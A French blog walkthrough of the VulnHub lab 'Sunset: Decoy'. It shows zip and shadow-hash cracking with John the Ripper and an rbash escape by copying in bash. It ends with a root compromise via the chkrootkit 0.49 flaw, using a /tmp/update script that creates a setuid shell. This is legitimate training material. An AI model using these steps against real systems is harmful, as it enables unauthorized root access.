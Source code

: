 ```yaml
---
title: "Solution du CTF Sunset: Decoy de VulnHub"
tags: [CTF, VulnHub]
---
```


Le CTF [Sunset: Decoy](https://vulnhub.com/entry/sunset-decoy,505/) était amusant. Certes l'escalade de privilège se base sur un logiciel déjà croisé sur d'autres CTFs mais le fait qu'on puisse pour une fois le déclencher nous même était inattendu.

Sur cette VM on a un port 80 en écoute avec un listing de fichiers présent. Il se trouve qu'il n'y a qu'une archive nommée `save.zip` qui, sans surprise, est protégée par mot de passe.

On lance donc l'habituel `zip2john` pour générer un hash que l'on casse avec l'indémodable `JtR` :

```console
$ john --wordlist=rockyou.txt hashes.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
manuel           (save.zip)     
1g 0:00:00:00 DONE (2023-04-08 22:20) 16.66g/s 136533p/s 136533c/s 136533C/s 123456..toodles
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

On trouve différents fichiers du système dans cette archive, mais surtout `passwd` et `shadow`.

```
Archive:  save.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
     1807  2020-06-28 00:05   etc/passwd
     1111  2020-07-07 22:26   etc/shadow
      829  2020-06-27 23:40   etc/group
      669  2020-02-02 08:41   etc/sudoers
      185  2020-06-27 22:58   etc/hosts
       33  2020-06-27 23:39   etc/hostname
---------                     -------
     4634                     6 files
```

On relance donc `JtR` pour casser les hashes des utilisateurs et on obtient rapidement le mot de passe `server` pour l'utilisateur `296640a3b825115a47b68fc44501c828`.

Sans surprise à la connexion, on se retrouve face à un `rbash` (qu'on pouvait voir dans la ligne du fichier `passwd` pour cet utilisateur) :

```console
$ ssh 296640a3b825115a47b68fc44501c828@192.168.56.164
296640a3b825115a47b68fc44501c828@192.168.56.164's password: 
Linux 60832e9f188106ec5bcc4eb7709ce592 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jul  7 16:45:50 2020 from 192.168.1.162
-rbash: dircolors: command not found
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ ls
honeypot.decoy  honeypot.decoy.cpp  id  ifconfig  ls  mkdir  SV-502  user.txt
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ cat user.txt
-rbash: cat: command not found
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ echo $PATH
PATH:/home/296640a3b825115a47b68fc44501c828/
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ export PATH=/usr/local/bin:/usr/bin:/bin:/sbin:/usr/sbin:/home/296640a3b825115a47b68fc44501c828/
-rbash: PATH: readonly variable
```

`rbash` est un shell restreint. Ici on voit qu'il ne nous permet que d'exécuter les binaires présents dans le dossier courant.

On va donc le prendre au pied de la lettre. Pour cela je me sers de `scp` pour copier `/bin/bash` sur ma machine puis dans le sens inverse de ma machine vers le dossier de l'utilisateur.

Il me suffit alors d'appeler `bash` et de corriger le `PATH`. Ce `rbash` est désormais de l'histoire ancienne.

Il y a un binaire custom dont on ne peut lire le code source :

```
-rwxr-xr-x 1 root                             root                               17480 Jul  7  2020 honeypot.decoy
-rw------- 1 root                             root                                1855 Jul  7  2020 honeypot.decoy.cpp
```

Toutefois, on peut se faire une petite idée de son utilité en regardant dans le binaire (commande `strings`) :

```
libc.so.6
__cxa_atexit
system
__cxa_finalize
__libc_start_main
GLIBCXX_3.4
GLIBC_2.2.5
u/UH
[]A\A]A^A_
Welcome to the Honey Pot administration manager (HPAM). Please select an option.
1 Date.
2 Calendar.
3 Shutdown.
4 Reboot.
5 Launch an AV Scan.
6 Check /etc/passwd.
7 Leave a note.
8 Check all services status.
Option selected:
No available option was selected. Ending program.
/usr/bin/date
/usr/bin/cal
Shutdown is currently not available due to not enough privileges. Ending program.
Rebooting is currently not available due to not enough privileges. Ending program.
/usr/bin/touch /dev/shm/STTY5246
The AV Scan will be launched in a minute or less.
/usr/bin/cat /etc/passwd
/usr/bin/vi /tmp/cmFuZG9tc2Zvc2FuZm9kYW52cw==
/usr/sbin/service apache2 status
```

Le programme n'étant pas setuid, il semble peu intéressant pour le moment.

Dans le dossier `SV-502` je trouve un fichier `log.txt` qui correspond à un output de l'outil de surveillance de processus `pspy`.

La ligne la plus intéressante est la mention de c`hkrootkit 0.49` :

```
2020/06/27 18:56:58 CMD: UID=0    PID=12386  | tar -xvzf chkrootkit-0.49.tar.gz
```

J'ai exploité ce programme vulnérable notamment sur le CTF [Fuku]({% link _posts/2023-01-04-Solution-du-CTF-SecTalks-BNE0x02-Fuku-de-VulnHub.md %}).

L'idée est de placer un script nommé `update` qui sera exécuté lorsque `chkrootkit` est appelé. J'ai donc édité le même script que les dernières fois.

```console
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ vi /tmp/update
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ chmod 755 /tmp/update
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ cat /tmp/update
#!/bin/bash
cp /usr/bin/dash /tmp/devloop_was_here
chmod 4755 /tmp/devloop_was_here
```

Mais après quelques minutes, nada.... C'est sans doute le moment d'utiliser le binaire vu plus tôt :

```console
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ ./honeypot.decoy 
--------------------------------------------------

Welcome to the Honey Pot administration manager (HPAM). Please select an option.
1 Date.
2 Calendar.
3 Shutdown.
4 Reboot.
5 Launch an AV Scan.
6 Check /etc/passwd.
7 Leave a note.
8 Check all services status.

Option selected:5

The AV Scan will be launched in a minute or less.
--------------------------------------------------
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ ls /dev/shm/STTY5246
/dev/shm/STTY5246
```

L'option 5 a visiblement provoqué la création du fichier `/dev/shm/STTY5246`.

Et cette fois `chkrootkit` a bien été lancé, nous ouvrant la porte du compte root :

```console
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ ls -al /tmp/devloop_was_here
-rwsr-xr-x 1 root root 121464 Apr  8 16:51 /tmp/devloop_was_here
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ /tmp/devloop_was_here -p
# id
uid=1000(296640a3b825115a47b68fc44501c828) gid=1000(296640a3b825115a47b68fc44501c828) euid=0(root) groups=1000(296640a3b825115a47b68fc44501c828)
# cd /root
# ls
chkrootkit-0.49  chkrootkit-0.49.tar.gz  log.txt  pspy  root.txt  script.sh
# cat root.txt
  ........::::::::::::..           .......|...............::::::::........
     .:::::;;;;;;;;;;;:::::.... .     \   | ../....::::;;;;:::::.......
         .       ...........   / \\_   \  |  /     ......  .     ........./\
...:::../\\_  ......     ..._/'   \\\_  \###/   /\_    .../ \_.......   _//
.::::./   \\\ _   .../\    /'      \\\\#######//   \/\   //   \_   ....////
    _/      \\\\   _/ \\\ /  x       \\\\###////      \////     \__  _/////
  ./   x       \\\/     \/ x X           \//////                   \/////
 /     XxX     \\/         XxX X                                    ////   x
-----XxX-------------|-------XxX-----------*--------|---*-----|------------X--
       X        _X      *    X      **         **             x   **    *  X
      _X                    _X           x                *          x     X_


1c203242ab4b4509233ca210d50d2cc5

Thanks for playing! - Felipe Winsnes (@whitecr0wz)
```

Le script qui était lancé par la crontab est le suivant :

```bash
FILE=/dev/shm/STTY5246
if test -f "$FILE"; then
    /root/chkrootkit-0.49/chkrootkit
else
    echo "An AV scan will not be launched."
fi
```
